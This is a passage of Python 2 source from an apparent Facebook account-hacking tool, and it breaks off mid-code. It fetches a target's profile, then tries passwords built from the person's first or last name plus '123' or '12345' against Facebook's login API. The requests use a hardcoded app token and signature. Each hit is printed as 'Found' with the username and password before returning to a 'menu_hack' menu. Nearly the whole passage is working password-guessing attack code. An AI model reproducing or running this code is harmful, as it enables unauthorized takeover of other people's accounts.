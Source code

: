 		jalan('\033[1;91m[✺] \033[1;92mWait a minute \033[1;97m...')
		r = requests.get("https://graph.facebook.com/"+id+"?access_token="+toket)
		a = json.loads(r.text)
		print '\033[1;91m[➹] \033[1;92mName\033[1;97m : '+a['name']
		jalan('\033[1;91m[+] \033[1;92mCheck \033[1;97m...')
		time.sleep(2)
		jalan('\033[1;91m[+] \033[1;92mOpen password \033[1;97m...')
		time.sleep(2)
		print 42*"\033[1;97m═"
		pz1 = a['first_name']+'123'
		data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(id)+"&locale=en_US&password="+(pz1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
		y = json.load(data)
		if 'access_token' in y:
			print "\033[1;91m[+] \033[1;92mFound"
			print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
			print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
			print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz1
			raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
			menu_hack()
		else:
			if 'www.facebook.com' in y["error_msg"]:
				print "\033[1;91m[+] \033[1;92mFound"
				print "\033[1;91m[!] \033[1;93mAccount Checkpoint"
				print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
				print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
				print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz1
				raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
				menu_hack()
			else:
				pz2 = a['first_name'] + '12345'
				data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(id)+"&locale=en_US&password="+(pz2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
				y = json.load(data)
				if 'access_token' in y:
					print "\033[1;91m[+] \033[1;92mFound"
					print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
					print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
					print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz2
					raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
					menu_hack()
				else:
					if 'www.facebook.com' in y["error_msg"]:
						print "\033[1;91m[+] \033[1;92mFound"
						print "\033[1;91m[!] \033[1;93mAccount Checkpoint"
						print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
						print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
						print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz2
						raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
						menu_hack()
					else:
						pz3 = a['last_name'] + '123'
						data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(id)+"&locale=en_US&password="+(pz3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
						y = json.load(data)
						if 'access_token' in y:
							print "\033[1;91m[+] \033[1;92mFound"
							print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
							print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
							print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz3
							raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")